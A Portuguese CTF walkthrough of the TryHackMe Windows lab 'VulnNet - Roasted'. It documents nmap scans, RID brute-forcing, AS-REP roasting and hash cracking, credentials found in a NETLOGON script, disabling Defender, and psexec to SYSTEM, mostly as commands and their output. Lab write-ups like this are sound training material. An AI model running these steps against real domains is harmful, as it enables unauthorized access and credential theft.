

# VulnNet - Roasted

| Plataforma | Dificuldade | OS |
| --------------- | --------------- | --------------- |
| TryHackMe | Easy | Windows |

---

## Sobre a Máquina

Trata-se de uma máquina Windows, um ambiente ideal para treinar um pouco a exploração em ambientes AD. Fizemos RID Bruteforce, ASREP-Roasting, além de explorarmos permissionamento errado no SMB. Sem dúvidas, um excelente cenário para treinar exploração em Windows.

## Ambiente

- SO atacante: Kali Linux
- Ferramentas principais: `nmap`, `crackmapexec`, `GetPUsers.py`, `smbmap` .

## Ataque

### Recon

Como etapa inicial, vamos começar pelo bom e velho `nmap`, precisamos descobrir quais portas estão abertas para então pensar em caminhos de ataque.

```plaintext
➜  vulnnet sudo nmap -sS -p- --min-rate 5000 10.201.34.159  
Starting Nmap 7.95 ( https://nmap.org ) at 2025-11-13 19:08 EST
Not shown: 65517 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
49666/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown
49677/tcp open  unknown
49696/tcp open  unknown

```

Particularmente eu gosto sempre de começar por esse scan mais simples apenas para ter uma noção do que esperar na máquina.
Geralmente é comum encontrar servidores Windows em ambientes CTFs com esse tanto de porta aberta. Antes de qualquer coisa, vamos nos aprofundar um pouco mais nestes serviços, talvez tenha algum serviço ‘fora do lugar” (ou seja, rodando em uma porta diferente da sua usual).

Aprofundando um pouco mais:

```plaintext
➜  vulnnet  nmap -sCV -v -p53,88,135,139,389,445,636,3268,3269,5985,49666,49668,49669,49670,49699,49799 10.201.34.159
Nmap scan report for 10.201.34.159
Host is up (0.30s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-11-07 03:29:14Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: vulnnet-rst.local0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: vulnnet-rst.local0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49666/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  msrpc         Microsoft Windows RPC
49699/tcp open  msrpc         Microsoft Windows RPC
49799/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: WIN-2BO8M1OE1M1; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-11-07T03:30:11
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

```

Pelo resultado, vemos que se trata de um ambiente AD, temos o domínio desse ambiente (vulnnet-rst.local), e essa máquina seria um DC (porta 53 aberta indicando DNS, seria uma boa dica para concluir isso). Neste momento seguiremos uma abordagem mais simples: será que temos acesso anônimo ao SMB?

Vamos tentar, geralmente é um bom caminho começar por lá, visto que nos permite, além de possível acesso aos compartilhamentos de rede, comunicação via RPC.
Mas antes, não se esqueça de adicionar esse domínio ao seu `/etc/hosts`.

```plaintext
➜  vulnnet smbmap -H 10.201.34.159 -u 'biel' -p '' -d 'vulnnet-rst.local'

    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
-----------------------------------------------------------------------------
SMBMap - Samba Share Enumerator v1.10.7 | Shawn Evans - ShawnDEvans@gmail.com
                     https://github.com/ShawnDEvans/smbmap

[*] Detected 1 hosts serving SMB                                                                                                  
[*] Established 1 SMB connections(s) and 0 authenticated session(s)                                                          
                                                                                                                             
[+] IP: 10.201.34.159:445       Name: vulnnet-rst.local         Status: Authenticated
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
        NETLOGON                                                NO ACCESS       Logon server share 
        SYSVOL                                                  NO ACCESS       Logon server share 
        VulnNet-Business-Anonymous                              READ ONLY       VulnNet Business Sharing
        VulnNet-Enterprise-Anonymous                            READ ONLY       VulnNet Enterprise Sharing
[*] Closed 1 connections                                                                                                    

```

Ponha qualquer usuário teste ali, eu coloquei `biel` , apenas para teste.
Excelente! veja que temos permissão de leitura em alguns compartilhamentos. Para te adiantar, li e não encontrei nada útil nesses compartilhamentos que podemos ler, mas sugiro dar uma olhada sempre.

RID Bruteforce
Beleza, já que podemos "conversar" com o SMB mesmo sem um usuário válido, uma boa abordagem seria tentar fazer um  RID bruteforce.
Essa técnica, basicamente, consiste em tentar achar RID válidos que identificam usuários existentes no ambiente. Sugiro dar uma pesquisada mais sobre, vale a pena.

Talvez você se pergunte para que isso? O lance é que com uma lista de usuários válidos, tentaremos executar um ASREP-Roasting.

```plaintext
➜  vulnnet crackmapexec smb '10.201.101.209' -u 'biel' -p '' -d 'vulnnet-rst.local' --rid-brute
SMB         10.201.101.209  445    WIN-2BO8M1OE1M1  [*] Windows 10 / Server 2019 Build 17763 x64 (name:WIN-2BO8M1OE1M1) (domain:vulnnet-rst.local) (signing:True) (SMBv1:False)
SMB         10.201.101.209  445    WIN-2BO8M1OE1M1  [+] vulnnet-rst.local\biel: 
SMB         10.201.101.209  445    WIN-2BO8M1OE1M1  [+] Brute forcing RIDs
SMB         10.201.101.209  445    WIN-2BO8M1OE1M1  498: VULNNET-RST\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         10.201.101.209  445    WIN-2BO8M1OE1M1  500: VULNNET-RST\Administrator (SidTypeUser)
SMB         10.201.101.209  445    WIN-2BO8M1OE1M1  501: VULNNET-RST\Guest (SidTypeUser)
SMB         10.201.101.209  445    WIN-2BO8M1OE1M1  502: VULNNET-RST\krbtgt (SidTypeUser)
SMB         10.201.101.209  445    WIN-2BO8M1OE1M1  512: VULNNET-RST\Domain Admins (SidTypeGroup)
SMB         10.201.101.209  445    WIN-2BO8M1OE1M1  513: VULNNET-RST\Domain Users (SidTypeGroup)
SMB         10.201.101.209  445    WIN-2BO8M1OE1M1  514: VULNNET-RST\Domain Guests (SidTypeGroup)
SMB         10.201.101.209  445    WIN-2BO8M1OE1M1  515: VULNNET-RST\Domain Computers (SidTypeGroup)
SMB         10.201.101.209  445    WIN-2BO8M1OE1M1  516: VULNNET-RST\Domain Controllers (SidTypeGroup)
SMB         10.201.101.209  445    WIN-2BO8M1OE1M1  517: VULNNET-RST\Cert Publishers (SidTypeAlias)
SMB         10.201.101.209  445    WIN-2BO8M1OE1M1  518: VULNNET-RST\Schema Admins (SidTypeGroup)
SMB         10.201.101.209  445    WIN-2BO8M1OE1M1  519: VULNNET-RST\Enterprise Admins (SidTypeGroup)
SMB         10.201.101.209  445    WIN-2BO8M1OE1M1  520: VULNNET-RST\Group Policy Creator Owners (SidTypeGroup)
SMB         10.201.101.209  445    WIN-2BO8M1OE1M1  521: VULNNET-RST\Read-only Domain Controllers (SidTypeGroup)
SMB         10.201.101.209  445    WIN-2BO8M1OE1M1  522: VULNNET-RST\Cloneable Domain Controllers (SidTypeGroup)
SMB         10.201.101.209  445    WIN-2BO8M1OE1M1  525: VULNNET-RST\Protected Users (SidTypeGroup)
SMB         10.201.101.209  445    WIN-2BO8M1OE1M1  526: VULNNET-RST\Key Admins (SidTypeGroup)
SMB         10.201.101.209  445    WIN-2BO8M1OE1M1  527: VULNNET-RST\Enterprise Key Admins (SidTypeGroup)
SMB         10.201.101.209  445    WIN-2BO8M1OE1M1  553: VULNNET-RST\RAS and IAS Servers (SidTypeAlias)
SMB         10.201.101.209  445    WIN-2BO8M1OE1M1  571: VULNNET-RST\Allowed RODC Password Replication Group (SidTypeAlias)            
SMB         10.201.101.209  445    WIN-2BO8M1OE1M1  572: VULNNET-RST\Denied RODC Password Replication Group (SidTypeAlias)                        
SMB         10.201.101.209  445    WIN-2BO8M1OE1M1  1000: VULNNET-RST\WIN-2BO8M1OE1M1$ (SidTypeUser)                                              
SMB         10.201.101.209  445    WIN-2BO8M1OE1M1  1101: VULNNET-RST\DnsAdmins (SidTypeAlias)                                                                
SMB         10.201.101.209  445    WIN-2BO8M1OE1M1  1102: VULNNET-RST\DnsUpdateProxy (SidTypeGroup)
SMB         10.201.101.209  445    WIN-2BO8M1OE1M1  1104: VULNNET-RST\enterprise-core-vn (SidTypeUser)
SMB         10.201.101.209  445    WIN-2BO8M1OE1M1  1105: VULNNET-RST\a-whitehat (SidTypeUser)
SMB         10.201.101.209  445    WIN-2BO8M1OE1M1  1109: VULNNET-RST\t-skid (SidTypeUser)
SMB         10.201.101.209  445    WIN-2BO8M1OE1M1  1110: VULNNET-RST\j-goldenhand (SidTypeUser)
SMB         10.201.101.209  445    WIN-2BO8M1OE1M1  1111: VULNNET-RST\j-leet (SidTypeUser)


```

Vamos dar uma filtrada nesses resultados! Jogue o resultado em um arquivo, e dê uma filtrada:

```plaintext
➜  vulnnet cat users1.txt | grep -i "SidTypeUser" | cut -d "\\" -f 2  | cut -d " " -f 1
Administrator
Guest
krbtgt
WIN-2BO8M1OE1M1$
enterprise-core-vn
a-whitehat
t-skid
j-goldenhand
j-leet
```

Beleza, já temos alguns usuários para tentar avançar no ambiente!
ASEP-Roasting
Vamos tentar o ASREP-Roasting agora:

```plaintext
➜  vulnnet GetNPUsers.py 'vulnnet-rst.local'/ -usersfile ./users.txt -dc-ip 10.201.101.209 -format 'hashcat'
Impacket v0.13.0 - Copyright Fortra, LLC and its affiliated companies 

[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Guest doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User WIN-2BO8M1OE1M1$ doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User enterprise-core-vn doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User a-whitehat doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$t-skid@VULNNET-RST.LOCAL:a1f248ba807dfb1de95fad4736796cdd$53c06631b84fadf6c8b895a07741187f7dcc3316985ca1965b6b5f9494f92656b0b9d1d38bdeecddb3db3eab791dc65db19769bb8e82d75912a07177ed2d086bc903f374dfc24868de2d3cc25ba66659414ddc45ed24c83efbeeb49601cd1f3f6a3054e0f1679fe075154d43f250f90dd0bc1ad874c1f91917da3abb55963490c4d8c282c9763f318b8cdf83a1806c1b8107dc44764901b9d1be6caacf62fb1d39ff91863d070c78354a362fdd7eab63d49a4517f49acec86b3df8954473e9ce22aa0e8c6e2abd36f25cd07149e4bd3fc0e983907c012ad63e06006e214a66e70a31c0399a322e67ac5b764e3c9f513955ace8b55d9a
[-] User j-goldenhand doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User j-leet doesn't have UF_DONT_REQUIRE_PREAUTH set

````

Excelente! Conseguimos a hash do usuário `t-skid`, vamos fazer um cracking dela! Eu vou usar o John para fazer o cracking, mas fique a vontade para usar o `hashcat` caso queira!

Aqui vai uma dica, quando não souber qual formato indicar para o John, basta dar um:

```plaintext
john –list=formats | grep “tipo_hash”
```

Ou então, uma pesquisa no Google deve resolver!
Vamos para o cracking:

```plaintext
➜  vulnnet john hash --show
$krb5asrep$23$t-skid@VULNNET-RST.LOCAL:tj072889*

```

Eu já tinha quebrado, mas o comando seria:

```plaintext
john --format=krb5asrep hash --wordlist=/usr/share/wordlists/rockyou.txt
```

Beleza! Já temos a senha dele!
Enumeração com o `$t-skid`
Já que temos as credenciais do t-skid, vamos fazer uma enumeração mais uma vez o SMB e ver se encontramos algo bacana!

```plaintext
➜  vulnnet smbmap -H 10.201.101.209 -u 't-skid' -p 'tj072889*' -d 'vulnnet-rst.local'

    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
-----------------------------------------------------------------------------
SMBMap - Samba Share Enumerator v1.10.7 | Shawn Evans - ShawnDEvans@gmail.com
                     https://github.com/ShawnDEvans/smbmap

[*] Detected 1 hosts serving SMB                                                                                                  
[*] Established 1 SMB connections(s) and 1 authenticated session(s)                                                          
                                                                                                                             
[+] IP: 10.201.101.209:445      Name: 10.201.101.209            Status: Authenticated
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
        NETLOGON                                                READ ONLY       Logon server share 
        SYSVOL                                                  READ ONLY       Logon server share 
        VulnNet-Business-Anonymous                              READ ONLY       VulnNet Business Sharing
        VulnNet-Enterprise-Anonymous                            READ ONLY       VulnNet Enterprise Sharing
[*] Closed 1 connections                                                                                   

```

Veja que temos mais permissões! O `smbmap` tem uma opção`-r` que ativa modo recursivo, isso vai nos ajudar a olhar share por share e ver se tem algo interessante, sem precisar ficar entrando de forma manual em cada share:

```plaintext
➜  vulnnet smbmap -H 10.201.101.209 -u 't-skid' -p 'tj072889*' -d 'vulnnet-rst.local' -r

    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
-----------------------------------------------------------------------------
SMBMap - Samba Share Enumerator v1.10.7 | Shawn Evans - ShawnDEvans@gmail.com
                     https://github.com/ShawnDEvans/smbmap

[*] Detected 1 hosts serving SMB                                                                                                  
[*] Established 1 SMB connections(s) and 1 authenticated session(s)                                                          


        ./NETLOGON
        dr--r--r--                0 Tue Mar 16 19:15:49 2021    .
        dr--r--r--                0 Tue Mar 16 19:15:49 2021    ..
        fr--r--r--             2821 Tue Mar 16 19:18:14 2021    ResetPassword.vbs
        SYSVOL                                                  READ ONLY       Logon server share 


```

Esse script em `.vbs` nos parece interessante! Vamos dá uma olhada:

 ```plaintext
➜  vulnnet smbmap -H 10.201.69.150 -u 't-skid' -p 'tj072889*' -d 'vulnnet-rst.local' -r -A .vbs

    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
-----------------------------------------------------------------------------
SMBMap - Samba Share Enumerator v1.10.7 | Shawn Evans - ShawnDEvans@gmail.com
                     https://github.com/ShawnDEvans/smbmap

[*] Detected 1 hosts serving SMB                                                                                                  
[*] Established 1 SMB connections(s) and 1 authenticated session(s)                                                          
[*] Performing file name pattern match!                                                                                      
[+] Match found! Downloading: NETLOGON//ResetPassword.vbs                                                                    
[+] Starting download: NETLOGON\ResetPassword.vbs (2821 bytes)                                                              
[+] File output to: /home/kali/thm/vulnnet/10.201.69.150-NETLOGON_ResetPassword.vbs                                         
[*] Closed 1 connections                                                            

```

O `smbmap` tem a opção `-A` que, basicamente, nos permite especificar um pattern para nome de arquivo, se der macht, ele faz o download do arquivo.

Agora, ao olhar o conteúdo do script, vemos algo interessante:

```plaintext
➜  vulnnet cat 10.201.69.150-NETLOGON_ResetPassword.vbs 
Option Explicit

Dim objRootDSE, strDNSDomain, objTrans, strNetBIOSDomain
Dim strUserDN, objUser, strPassword, strUserNTName

' Constants for the NameTranslate object.
Const ADS_NAME_INITTYPE_GC = 3
Const ADS_NAME_TYPE_NT4 = 3
Const ADS_NAME_TYPE_1779 = 1

If (Wscript.Arguments.Count <> 0) Then
    Wscript.Echo "Syntax Error. Correct syntax is:"
    Wscript.Echo "cscript ResetPassword.vbs"
    Wscript.Quit
End If

strUserNTName = "a-whitehat"
strPassword = "bNdKVkjv3RR9ht"


```

Credenciais! Excelente!

Vamos testar elas no SMB:

```plaintext
➜  vulnnet smbmap -H 10.201.69.150 -u 'a-whitehat' -p 'bNdKVkjv3RR9ht' -d 'vulnnet-rst.local' 

    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
-----------------------------------------------------------------------------
SMBMap - Samba Share Enumerator v1.10.7 | Shawn Evans - ShawnDEvans@gmail.com
                     https://github.com/ShawnDEvans/smbmap

[*] Detected 1 hosts serving SMB                                                                                                  
[*] Established 1 SMB connections(s) and 1 authenticated session(s)                                                          
[!] Unable to remove test file at \\10.201.69.150\SYSVOL\IFTOGZQHGR.txt, please remove manually                              
                                                                                                                             
[+] IP: 10.201.69.150:445       Name: 10.201.69.150             Status: ADMIN!!!   
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  READ, WRITE     Remote Admin
        C$                                                      READ, WRITE     Default share
        IPC$                                                    READ ONLY       Remote IPC
        NETLOGON                                                READ, WRITE     Logon server share 
        SYSVOL                                                  READ, WRITE     Logon server share 
        VulnNet-Business-Anonymous                              READ ONLY       VulnNet Business Sharing
        VulnNet-Enterprise-Anonymous                            READ ONLY       VulnNet Enterprise Sharing

```

Eita! Parece que temos mais permissões ainda sobre o DC! Excelente!

### Exploração

User shell
O próximo passo agora é testar se conseguimos pegar uma shell com essas credenciais no DC:

```plaintext
➜  vulnnet crackmapexec smb 10.201.69.150 -u 'a-whitehat' -p 'bNdKVkjv3RR9ht' -d 'vulnnet-rst.local' 
SMB         10.201.69.150   445    WIN-2BO8M1OE1M1  [*] Windows 10 / Server 2019 Build 17763 x64 (name:WIN-2BO8M1OE1M1) (domain:vulnnet-rst.local) (signing:True) (SMBv1:False)
SMB         10.201.69.150   445    WIN-2BO8M1OE1M1  [+] vulnnet-rst.local\a-whitehat:bNdKVkjv3RR9ht (Pwn3d!)
```

Veja que o ``crackmapexec` apontou que sim! (Pwn3d). Como vimos no início as portas do WinRM estão abertas, vamos tentar um shell por lá com o `evil-winrm`:

```plaintext
➜  vulnnet evil-winrm -i 10.201.69.150 -u 'a-whitehat' -p 'bNdKVkjv3RR9ht' 
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\a-whitehat\Documents> 

```

Conseguimos!
System shell
Ao verificar nossos privilégios, vemos que não somos system na máquina:

```plaintext
*Evil-WinRM* PS C:\Users\a-whitehat\Documents> whoami
vulnnet-rst\a-whitehat
```

Ok, precisamos upar nossos privilégios para System. Dando uma olhada os privilégios do nosso usuário, vemos que somos DA (Domain Admin):

```plaintext
*Evil-WinRM* PS C:\Users\a-whitehat\Documents> net user a-whitehat
User name                    a-whitehat
Full Name                    Alexa Whitehat
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            3/11/2021 11:47:12 AM
Password expires             Never
Password changeable          3/12/2021 11:47:12 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   Never

Logon hours allowed          All

Local Group Memberships
Global Group memberships     *Domain Admins        *Domain Users
The command completed successfully.

```

Excelente!

Uma forma de pegar System, seria com o `psexec.py`, e será essa que usaremos!

Mas antes, precisamos checar se o antivirus está ativado, caso esteja, o `psexec.py` não vai ter sucesso:

```plaintext
*Evil-WinRM* PS C:\Users\a-whitehat\Documents> Get-MpComputerStatus
 


AMEngineVersion                 : 1.1.17900.7
AMProductVersion                : 4.18.2102.4
AMRunningMode                   : Normal
AMServiceEnabled                : True
AMServiceVersion                : 4.18.2102.4
AntispywareEnabled              : True
AntispywareSignatureAge         : 1703
AntispywareSignatureLastUpdated : 3/15/2021 11:21:24 PM
AntispywareSignatureVersion     : 1.333.559.0
AntivirusEnabled                : True
AntivirusSignatureAge           : 1703
AntivirusSignatureLastUpdated   : 3/15/2021 11:21:23 PM
AntivirusSignatureVersion       : 1.333.559.0
BehaviorMonitorEnabled          : True
ComputerID                      : 972BF0B9-5A87-4CF2-828F-ED3C67E00C1F
ComputerState                   : 0
FullScanAge                     : 4294967295
FullScanEndTime                 :
FullScanStartTime               :
IoavProtectionEnabled           : True
IsTamperProtected               : False
IsVirtualMachine                : True
LastFullScanSource              : 0
LastQuickScanSource             : 0
NISEnabled                      : True
NISEngineVersion                : 1.1.17900.7
NISSignatureAge                 : 1703
NISSignatureLastUpdated         : 3/15/2021 11:21:23 PM
NISSignatureVersion             : 1.333.559.0
OnAccessProtectionEnabled       : True
QuickScanAge                    : 4294967295
QuickScanEndTime                :
QuickScanStartTime              :
RealTimeProtectionEnabled       : True
RealTimeScanDirection           : 0
TamperProtectionSource          : N/A
PSComputerName                  :

```

Perceba o `AMRunningMode: Normal` e o `RealTimeProtectionEnabled: True`, ou seja, está ativo. Para desabilitar, lembrando que temos permissão para isso:

```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```

Agora, executando o `psexec.py` temos a shell como System:

```plaintext
➜  vulnnet psexec.py vulnnet-rst.local/'a-whitehat':bNdKVkjv3RR9ht@10.201.69.150
Impacket v0.13.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on 10.201.69.150.....
[*] Found writable share ADMIN$
[*] Uploading file LorwCfbe.exe
[*] Opening SVCManager on 10.201.69.150.....
[*] Creating service SCOV on 10.201.69.150.....
[*] Starting service SCOV.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.1817]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system


```

Agora é só ir atrás das flags!

## Conclusão
